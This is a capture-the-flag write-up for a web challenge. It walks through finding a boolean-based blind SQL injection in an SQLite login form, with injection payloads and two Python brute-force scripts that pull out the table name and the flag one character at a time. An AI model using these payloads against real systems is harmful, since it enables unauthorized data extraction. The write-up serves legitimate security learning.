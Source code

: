 # B!inded! (Web Challenge)
### First it is my first time to write writeups so it will be nice if you have a negative feedback for me :)
## Description 

```
No fuzzing is needed, just get the flag , Format : EGCERT{flag}
Points : 200
```

## Enumeration 
 
once i opened the challenge i found this login page 

![loginpage](../assets/ieee/B!inded!/login-page.jpeg)

And we have a hint on the description that tell us we don't need to fuzzing so our entry is the login page 
so i tried ```admin``` ```admin``` in the user and pass , i have got response ```wrong password``` so now i know that we have admin username . 

i tried again with aboelnour and pass and i have got that user not found

so i fired up my burp and send ```a``` in user and ```a``` in pass

And i have noticed that username and password converted to hex and sperated by four zeros 
for example a = 61 in hex so our request will be like this 

![request](../assets/ieee/B!inded!/request.png)

and the response of this request is

```
user not found 
```


And from the challenge name i got that it might be blind sqli 

so i typed ```aboelnour"``` in username and ```0``` in pass , i have got internal server error.
then i typed ```aboelnour" or 1=1 -- -``` and B00M i have got response ```Wrong Password```  , to make sure i tried ```aboelnour" or 1=0 -- -``` and got response ```User not found``` , so it is boolean based sqli 

so let's enum our sql type 

i tried ```admin" select version()-- -``` but i got internal server error 

so i tried ```admin"select sqlite_version()-- -``` , and response was Wrong password , so our db is ```SQLite``` 

-----

## Extract table name  

+ First of all , we have SQL Server SUBSTRING() Function , this function use to extracts some characters from a     string. 

### Ex :

+ substring("Aboelnour",1,1) , output will be --> A

+ substring("Aboelnour",2,1) , output will be --> b 

and so on

+ we have alos SQL LIKE Operator : you can check it on "https://www.w3schools.com/sql/sql_like.asp"



so if we have table name = users and column name = user we can enum users with query like this 

```substring((select user from users where user like '%a%'),1,1) = 'a'```

operator ```like '%a%``` : will finds any values that have a on any position  

then i have searched about how to extract tables from SQLitedb and found this payloads in payloadsALLTheThings on github : https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/SQLite%20Injection.md#sqlite-version


I got this query to Extract table names

```
SELECT tbl_name FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%'
```

I have modified it to this query below to find any table have fl in any position  

```
SELECT tbl_name FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_% AND like '%fl%'
```

so our final payload will be : 

```admin"and SUBSTRING((SELECT tbl_name FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%' and tbl_name like '%fl%'),1,1) = 'f' -- -```

i tried it and i have got User not found so the first char not f 

So i have tried

```admin"and SUBSTRING((SELECT tbl_name FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%' and tbl_name like '%fl%'),1,1) = 'F' -- -``` , i have got Wrong password so the first character is F 

but it will be hard to make it manually so i have wrote python script to got table name 

----

## Exploit code 

first we need to convert our username to hex and concate it with 000061 , 61 is the password
second we need to brute force chars in i place then check if Wrong in response so we got the right char and increase step with 1 to find the second char and so on 


```python
import requests
import string

url = 'http://challenge.com/login'
myobj = '%s000061'
returned_text="Wrong"
table=""
step = 1
for j in range(1,len(string.printable)):
	for i in string.printable:
		payload = f'admin"and SUBSTRING((SELECT tbl_name FROM sqlite_master WHERE type=\'table\' and tbl_name NOT like \'sqlite_%\' and tbl_name like \'%fl%\'),{step},1) = \'{i}\' -- -'
		p = payload.encode('utf-8').hex()
		p = myobj % p 
		x = requests.post(url, data=p)
		if returned_text in x.text :
			step += 1
			print(x.text)
			print(i)
			table = table + i
			print("found more char : ", table)

print("Flag table name : " , table)
```

Afer running this script i got 
```
Flag table name : Flag_jnk249
```

so now we have the table name 

before brute force column i have try this payload 

```
admin"select flag from Flag_jnk249-- -
```
and i got Wrong password so our column name is flag 

i modified my previse script to got the flag 


```python
import requests
import string

url = 'http://challenge.com/login'
myobj = '%s000061'
flag=""
returned_text="Wrong"
step = 1
for j in range(1,len(string.printable)):
	for i in string.printable:
		payload = f'admin"and SUBSTRING((SELECT flag from Flag_jnk249),{step},1) = \'{i}\' -- -'
		p = payload.encode('utf-8').hex()
		p = myobj % p 
		x = requests.post(url, data=p)
		if returned_text in x.text :
			step += 1
			print(x.text)
			print(i)
			flag = flag + i
			print("found more char : ", flag)

print("FLAG : " flag)
```

```
AND finnaly i have got FLAG The : EGCERT{flaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaag}
```

#### Linkedin : https://www.linkedin.com/in/maboelnour12/
#### Facebook : https://www.facebook.com/maboelnour12
